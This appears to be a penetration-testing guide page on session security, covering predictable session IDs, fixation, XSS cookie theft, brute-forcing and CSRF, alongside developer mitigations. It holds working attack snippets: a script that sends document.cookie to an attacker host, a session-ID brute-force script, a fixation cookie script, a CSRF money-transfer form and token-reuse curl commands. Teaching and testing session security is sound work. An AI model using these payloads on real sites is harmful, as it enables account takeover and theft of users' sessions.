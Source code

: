 # 🫀 Session Security

#### Session Security and Advanced Session Hijacking Exploits

A user session bridges multiple interactions between a client and server using a unique session identifier (session ID). Securing sessions is paramount, as compromised sessions can lead to complete account takeovers or even further lateral movement within a target system. Let’s dive into deeper insights, examples, and some advanced tricks.

***

#### **Session ID Weaknesses**

1. **Predictable Session IDs**\
   Some poorly designed applications generate session IDs with predictable patterns, such as sequential numbering, timestamps, or weak cryptographic randomization.
   *   Example of predictable generation:

       ```plaintext
       Session ID: user001, user002, user003
       Session ID: 202311181230
       ```
   *   Exploit: An attacker might brute-force predictable IDs using tools like **Burp Suite Intruder**:

       ```plaintext
       Intruder Payload: Session IDs 202311181230 to 202311181259
       ```
2. **Session IDs Exposed in URLs**\
   When session IDs are passed in the URL as query parameters (`example.com/dashboard?session_id=abc123`), they may get logged in server logs, shared in referrer headers, or stored in browser history.
   *   Exploit Trick: Craft a phishing email embedding a malicious link:

       ```plaintext
       https://vulnerable-site.babelpentest.net/dashboard?session_id=<victim_id>
       ```
3. **Reuse of Session Tokens After Logout**\
   If an application doesn’t properly invalidate a session on logout, attackers can reuse the token even after a legitimate user logs out.
   * Example:
     * Legitimate user logs out.
     *   Attacker reuses the same session token (`auth-token=abc123`) via `curl`:

         ```bash
         curl -H "Cookie: auth-token=abc123" https://secure.babelpentestlab.net/user-panel
         ```

***

#### **Advanced Session Hijacking Techniques**

**1. Session Fixation**

Attackers set the victim's session ID to a known value before the victim logs in, allowing attackers to impersonate them after authentication.

* **Steps**:
  1.  Attacker forces a victim to use a predetermined session ID via phishing or XSS:

      ```javascript
      document.cookie = "PHPSESSID=attackerknownid; path=/;";
      ```
  2. Victim logs into the site, unaware that the attacker is already authenticated with the same session ID.
  3.  Attacker accesses the victim's session:

      ```bash
      curl -H "Cookie: PHPSESSID=attackerknownid" https://vulnerable-site.babelpentestlab.net/user-dashboard
      ```

**2. Cookie Sniffing via Man-in-the-Middle (MITM)**

If cookies are not transmitted over HTTPS, they are vulnerable to interception:

* **Tooling Example**:
  * Use `Wireshark` to capture unencrypted traffic.
  * Filter HTTP requests for `Set-Cookie` headers.
* **Mitigation**: Ensure cookies are marked `Secure` and enforce HTTPS.

**3. Exploiting XSS for Session Theft**

When combined with XSS vulnerabilities, session hijacking becomes even more devastating.

*   Example Payload:

    ```javascript
    <script>
    fetch('http://attacker.babelpentestlab.net/steal?c=' + document.cookie);
    </script>
    ```
* Mitigation:
  *   Use `Content Security Policy (CSP)` headers to limit scripts:

      ```plaintext
      Content-Security-Policy: script-src 'self';
      ```

**4. Session Side-Jacking with Tools**

If no additional protections like HSTS (HTTP Strict Transport Security) are in place, attackers can exploit cookies via popular tools:

* **Tools**:
  * **Firesheep**: Captures cookies over unsecured Wi-Fi networks.
  * **Bettercap**: For advanced MITM attacks on HTTPS traffic.

***

#### **Browser Storage and Session Exposure**

**localStorage vs sessionStorage vs Cookies**

1. **Cookies**:
   * Pros: Sent with every HTTP request (easy for server-side validation).
   * Cons: Vulnerable to XSS and requires secure flags.
2. **localStorage**:
   * Persistent across sessions.
   * Should **never** be used to store sensitive data like session tokens.
   *   Example Risk:

       ```javascript
       localStorage.setItem('auth-token', 'abc123');
       ```
3. **sessionStorage**:
   * Resets on browser close but still exposed to XSS attacks.

**Tips for Developers:**

*   Use `HttpOnly`, `Secure`, and `SameSite` cookie attributes:

    ```plaintext
    Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict;
    ```

***

#### **Session Expiry and Refresh**

1. **Short Expiry Times**: Expiring sessions after a short time of inactivity limits the attack window.\
   Example Configuration:
   *   Set session timeout to 15 minutes:

       ```php
       ini_set('session.gc_maxlifetime', 900);
       ```
2.  **Session Re-Randomization**: Rotate session IDs after login or privilege escalation:

    ```php
    session_regenerate_id(true);
    ```

***

#### **Testing Tools for Session Security**

1. **Burp Suite**:
   * Use the **Session Token Analysis** tool to test randomness and length.
   * Capture and manipulate cookies via the **Proxy** tab.
2. **OWASP ZAP**:
   * Active scan to identify unprotected cookies or insecure storage.
3.  **Custom Python Script for Brute-Forcing Session Tokens**:

    ```python
    import requests

    base_url = "https://vulnerable-site.babelpentestlab.net"
    for i in range(1000, 1100):
        cookies = {"session_id": str(i)}
        response = requests.get(base_url, cookies=cookies)
        if "Welcome Back" in response.text:
            print(f"Valid Session ID Found: {i}")
            break
    ```

***

#### **Advanced Tricks**

1. **CSRF + Session Hijacking**: Combine CSRF (Cross-Site Request Forgery) with weak session handling:
   *   Force victim to perform actions while using a hijacked session:

       ```html
       <form action="https://secure.babelpentestlab.net/transfer" method="POST">
           <input type="hidden" name="amount" value="1000">
           <input type="hidden" name="recipient" value="attacker">
           <input type="submit">
       </form>
       ```
2. **Privilege Escalation via Session Tokens**:
   *   Some applications encode roles in tokens:

       ```plaintext
       session_token=eyJ1c2VyIjoiYWRtaW4ifQ==
       ```
   *   Decode and modify the token (`admin` → `superuser`):

       ```bash
       echo "eyJ1c2VyIjoiYWRtaW4ifQ==" | base64 -d
       ```
3. **Subdomain Enumeration for Session Sharing**:
   *   Test subdomains for cookie sharing:

       ```bash
       subfinder -d babelpentestlab.net | httpx --status-code
       ```
4.  **Cookie Path Exploitation**: Misconfigured `Path` attributes allow token reuse on unintended endpoints:

    ```plaintext
    Set-Cookie: auth=abc123; Path=/api/v1/
    ```

    *   Access admin functions directly:

        ```bash
        curl -H "Cookie: auth=abc123" https://babelpentestlab.net/api/v1/admin
        ```
